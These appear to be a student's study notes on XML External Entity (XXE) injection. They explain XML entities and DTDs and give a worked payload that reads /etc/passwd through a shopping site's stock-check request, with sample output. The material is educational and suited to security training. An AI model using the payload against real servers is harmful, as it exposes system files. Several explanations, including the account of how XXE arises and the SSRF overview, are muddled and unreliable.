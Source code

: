 #WAPT-notes  

---
### what we'll learn
- what is XXE
- how XXE vulnerabilities arise
- XML entities
- XML custom entities & external entities
- Overview : how SSRF attacks can be done
- types of XXE attacks

### Overview
- Lecture name : XML External Entity (XXE) Injection - types of attacks
---

### Topics - Explanation

1) <u>About XXE - (XML External Entity (XXE) Injection)</u>
	- Reference : [What is XXE ? Tutorial & Examples | Web Security Academy](https://portswigger.net/web-security/xxe)
	- When data of an application & the data processed via XML (markup language) then a attacker interfere/intercept that "processing" & from the web server , he/she could do such things like read the file , attack can be done like SSRF , compromise the backend server , so this web security vulnerability aka XXE ✔
	- in it , we're saying `injection` cuz payload is inserted/used & via payload , everything done ✔
	- define : those applications which use XML to transferring data , so mostly XML has those features via which we can define/declare custom entity , as a attacker , we can intercept in the middle of process of transferring data & we can read the files , types of attacks of XXE like SSRF can be done ✔
1) <u>How do XXE vulnerabilities arise ?</u>
	- *When this XXE attack possible* `(imp ⭐)`
		- cuz if specification (of the document of XML) is done properly then XXE attack can be possible 
		- or XML standard partials potentially support dangerous features via which these kind of payloads possible to execute 
2) <u>XML entities</u>
	- *what is XML ?*
		- XML stands for "extensible markup language"
		- it is a language designed for storing & transporting data & Like HTML, XML uses a tree-like structure of tags and data & unlike HTML , it doesn't have predefined tags 
	- *what are XML entities ?*
		- Define : XML entities are a way of representing an item of data within an XML document, instead of using the data itself
		- Eg of XML Entities : he entities `&lt;` and `&gt;` represent the characters `<` and `>`
		- These are metacharacters used to denote XML tags
	- *What is document type definition (DTD) ?*
		- The XML DTD contains declarations that can define the structure of an XML document
3) <u>What are XML custom entities ?</u> `(v imp ⭐)`
	- XML allows us to define/declare our own custom entities
	- Eg : of Format/syntax to define `<!DOCTYPE foo [ <!ENTITY myentity "my entity value" > ]>` - myentity - means name of the entity u want to give & inside double quotes contain the value of that entity
4) <u>What are XML external entities ? </u>
	- XML external entities looks like `<!DOCTYPE foo [ <!ENTITY ext SYSTEM "http://normal-website.com" > ]>`
	- here `ext` - means it's communicating with your external resource i.e that URL
	- Eg : `<!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///path/to/file" > ]>`
	- *how different attacks can be done in XXE* ✔
		- so we can define XML custom entities & external entities 
		- Example : ![[WAPT-lecture-13-0.jpg]]
		- `"file:///etc/passwd"` - here we're able to retrieve the file cuz we define the `file`which is stored on the server i.e `etc/passwd` ✔
		- Overview : how SSRF attack can be done : here `"file:///etc/passwd"` , the address (of the file path we'll give) of malicious server or where we can get the user control ✔
5) <u>different types of XXE attacks</u> 
	- 1) File retrieve
	- 2) SSRF attacks
	- 3) exfiltrate data out-of-band
	- 4) retrieving data via error messages
6) <u>Exploiting XXE to retrieve files - Example 1st XXE attack</u>
	- Reference : [Exploiting XXE to retrieve files | portswigger](https://portswigger.net/web-security/xxe#exploiting-xxe-to-retrieve-files)
	- STEP 1 : For example, suppose a shopping application checks for the stock level of a product by submitting the following XML to the server:
		```xml
		<?xml version="1.0" encoding="UTF-8"?> 
		<stockCheck><productId>381</productId></stockCheck>
		```
	- STEP 2: so we changed the above XMl code into this 
		- The application performs no particular defenses against XXE attacks, so you can exploit the XXE vulnerability to retrieve the `/etc/passwd` file by submitting the following XXE payload:
		```xml
		<?xml version="1.0" encoding="UTF-8"?> 
		<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]> 
		<stockCheck><productId>&xxe;</productId></stockCheck>
		```
		- to exploit that above code , we took `DOCTYPE foo` then `!ENTITY xxe` entity we declared/define (what ENTITY xxe doing?) which is retrieving `"file:///etc/passwd"`
		- & then for "productId" we define `&xxe;` - here we put `&` to tell it's a entity
	- STEP 3: the code of STEP 2 
		- This XXE payload defines an external entity `&xxe;` whose value is the contents of the `/etc/passwd` file and uses the entity within the `productId` value. This causes the application's response to include the contents of the file:
		```xml
		Invalid product ID: root:x:0:0:root:/root:/bin/bash 
		daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin 
		bin:x:2:2:bin:/bin:/usr/sbin/nologin ...
		```
		- it'll retrieve the contents of the `/etc/password` & show the contents
		- so we got `invalid product ID` - cuz in `productId` , we define `&xxe;` & then we got the content of `/etc/password` i.e 
		```xml
		root:x:0:0:root:/root:/bin/bash daemon 
		1:1:daemon:/usr/sbin:/usr/sbin/nologin 
		bin:x:2:2:bin:/bin:/usr/sbin/nologin
		```
8) <u>Remediation / how to prevent XXE vulnerabilities</u>
	- all XXE vulnerabilities arise/come cuz XML parsing library supports dangerous XML features
	- easiest & most effective way to protect/prevent XXE attacks is to disable those features such as `XInclude` - disable it but if u can't disable then overwrite the default behavior of it ✔

